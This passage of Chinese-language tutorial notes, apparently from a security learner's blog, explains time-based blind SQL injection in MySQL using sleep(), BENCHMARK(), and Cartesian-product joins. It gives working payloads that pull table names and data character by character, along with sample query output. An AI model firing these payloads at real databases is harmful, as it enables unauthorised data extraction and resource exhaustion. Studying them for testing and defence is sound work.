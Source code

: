 裸sleep注入

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202132128341.png)

实际使用

`' or sleep(ascii(substr((select binary group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>100)#`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202202132132924.png)

1. benchmark

`BENCHMARK(count,exp)`重复执行`count`次`exp`中的内容,其返回值为0

```
SELECT BENCHMARK(1000000,1+1);
+------------------------+
| BENCHMARK(1000000,1+1) |
+------------------------+
| 0                      |
+------------------------+
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201220004326.png)

`select * from table3 where id='1' and if (ascii(substr((select group_concat(info) from table3),1,1))>50,benchmark(10e7,1+1),1)#`

3. 笛卡尔积

可以大量消耗服务器资源

```
SELECT count(*) FROM information_schema.columns;
+----------+
| count(*) |
+----------+
| 3087     |
+----------+
1 row in set
Time: 0.030s
SELECT count(*) FROM information_schema.columns A,information_schema.columns B;
+----------+
| count(*) |
+----------+
| 9529569  |
+----------+
1 row in set
Time: 0.289s
SELECT count(*) FROM information_schema.columns A,information_schema.columns B,information_schema.columns C;
跑很久...
```

```
select * from table3 where id='-1' or if (length(database())<1,(select count(*) from information_schema.columns a,information_schema.columns b),1)#
+----+------+
| id | info |
+----+------+
| 1  | a    |
| 2  | a    |
| 3  | b    |
| 4  | c    |
| 5  | c    |
+----+------+
5 rows in set
Time: 0.018s
```